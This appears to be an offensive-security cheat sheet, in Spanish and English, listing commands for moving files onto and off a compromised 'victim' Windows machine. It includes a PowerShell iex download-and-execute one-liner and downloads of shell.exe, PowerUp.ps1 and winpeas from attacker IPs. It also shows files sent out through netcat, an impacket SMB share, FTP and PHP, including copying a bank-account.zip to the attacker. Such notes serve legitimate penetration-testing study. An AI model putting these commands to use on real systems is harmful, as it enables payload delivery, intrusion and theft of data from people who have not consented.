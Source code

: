 
### TO THE VICTIM

*  **WGET (suele estar instalado en las ultimas versiones de Powershell): para descargar de una web. Si da problemas de certificado aadir --no-check-certificate:

```
wget <URL> --no-check-certificate 
```

* Curl:

```
curl -o <filename> http://<server>
```

* Certutil.exe

```
certutil.exe -urlcache -f http://<IP ADDRRESS>/<file name> <file name>
```

* Powershell

```
iex(new-object net.webclient).downloadstring('http://<IP>/<filename>')

iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

#Descargar un fichero (por ejem un .exe)
Invoke-WebRequest http://10.10.14.8/shell.exe -o shell.exe
```

* WinRM

```
upload /home/kali/tools/winpeas.exe C:\\users\\tadi\\winpeas.exe
```

* SMB Server  (se puede usar tambien para enviar ficheros a la Kali desde la máquina víctima)
	
	On Kali machine:
	
	```
	impacket-smbserver smb .
	# Con usuario y pass
	impacket-smbserver -username <<USERNAME>> -password <<PASSWORD>> smb .
	```

	**¡¡NOTA IMPORTANTE!!** --> -   use `-smb2support` if machine is running smb version 2

	On Windows machine: 
	
	```
	net use \\<KALI IP>\smb
	# Con usuario y pass
	net use \\<KALI IP>\smb /u:<<USERNAME>> <<PASSWORD>>
	
	copy C:\bank-account.zip Z:\bank-account.zip
	```


### FROM THE VICTIM

* **Netcat

	Maquina víctima:

	```
	nc <<IP>> <<PORT>> < <<FILE>>
	```

	Maquina atacante:

	```
	nc -lvnp <<PORT>> > <<NAME_FILE>> 
	```

* **FTP Server

	1. Host ftp server on your kali machine:
	```
	python3 -m pyftpdlib -p 21 --write
	```
	2. Now using ftp on the compromised windows machine connect to your ftp server using anonymous access:
```
	ftp <<IP>>
```

**¡¡NOTA IMPORTANTE!!** --> Remember to use `binary` mode when transferring files.

* **PHP

	If php is installed on the windows client, host a server and connect to it from your kali machine:
	```
	php -S 0.0.0.0:<IP>
	```



`
